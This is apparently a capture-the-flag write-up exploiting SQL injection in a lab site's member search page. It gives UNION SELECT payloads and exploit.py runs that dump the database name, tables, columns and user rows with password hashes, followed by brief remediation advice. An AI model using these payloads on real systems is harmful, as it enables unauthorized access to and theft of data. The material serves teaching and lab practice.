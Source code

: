 # SQL injection members

## Exploitation

On the homepage, in the navbar, there is a page named **MEMBERS**. On the page (http://192.168.1.48/?page=member), there is a form for searching member by id

A search with the number `1` returns:

```
ID: 1 
First name: Barack Hussein
Surname : Obama
```

We can check if there is a SQL injection vulnerability by sending and addition. If we send `2-1` and the result is the id `1`, the addition was executed by the SQL request

```
ID: 2-1 
First name: Barack Hussein
Surname : Obama
```

We can use a SQL injection on this form

We need to know the numbers of fields. We will use `ORDER BY` to do this. If we send `1 ORDER BY X` and get an error (no result), the number X of fields is false, we can get the number by increasing it and test

We will using our script to launch injections

```
$ ./exploit.py '1 ORDER BY 2'
['ID: 1 ORDER BY 2 ', 'First name: Barack Hussein', 'Surname : Obama']
$ ./exploit.py '1 ORDER BY 3'
["Unknown column '3' in 'order clause'"]
```

The number of fields is 2

The name of the database

```sql
-1 UNION SELECT 1, database()
```

```
$ ./exploit.py '-1 UNION SELECT 1, database()'
['ID: -1 UNION SELECT 1, database() ', 'First name: 1', 'Surname : Member_Sql_Injection']
```

The name of the database is `Member_Sql_Injection`

Get the tables list

```sql
-1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database() 
```

```
$ ./exploit.py '-1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database()'
['ID: -1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : users']
```

There is 1 table : `users`

Get the table colums

```sql
-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database() 
```

```
$ ./exploit.py '-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database() '
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : user_id']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : first_name']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : last_name']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : town']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : country']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : planet']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : Commentaire']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : countersign']
```

There is 8 columns:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

Print all the columns value

```sql
-1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users 
```

```
$ ./exploit.py '-1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users'                          
['ID: -1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users ', 'First name: 1', 'Surname : 1Barack HusseinObamaHonolulu AmericaEARTHAmerca !2b3366bcfd44f540e630d4dc2b9b06d9']
['ID: -1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users ', 'First name: 1', 'Surname : 2AdolfHitlerBerlinAllemagneEarthIch spreche kein Deutsch.60e9032c586fb422e2c16dee6286cf10']
['ID: -1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users ', 'First name: 1', 'Surname : 3JosephStalineMoscouRussiaEarth????? ????????????? ?????????e083b24a01c483437bcf4a9eea7c1b4d']
['ID: -1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users ', 'First name: 1', "Surname : 5FlagGetThe424242Decrypt this password -&gt; then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28"]
```

We can see some instructions to get the flag. Need to decrypt the password, put in lowercase and sha256 the flag

After md5 decoding, the password is `FortyTwo`, in lowercase `fortytwo`, sha256 it!

## How to fix it?

An SQL injection is a sanitization issue. It happens when a SQL request is used with a non sanitized data. For exemple:

```php
$db = new mysqli('localhost', 'root', 'passwd', 'base');
$result = $db->query('SELECT * FROM users WHERE user="'.$_GET['user'].'" AND pass= "'.$_GET['password'].'"');
```

In this exemple, the SQL request is build with the raw GET parameters value. We can inject some SQL in the parameters and change the original request to access/modify some data.

The way to fix it is to ALWAYS sanitize ALL the input data. Never trust the user

To help, in PHP there is some functions to do it, for exemple `mysqli_real_escape_string()`, or you can do it manually.

The better way is to use a framework to manage to Database access for you.

## References

- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/
- https://blog.detectify.com/2016/03/08/what-is-a-sql-injection-and-how-do-you-fix-it/

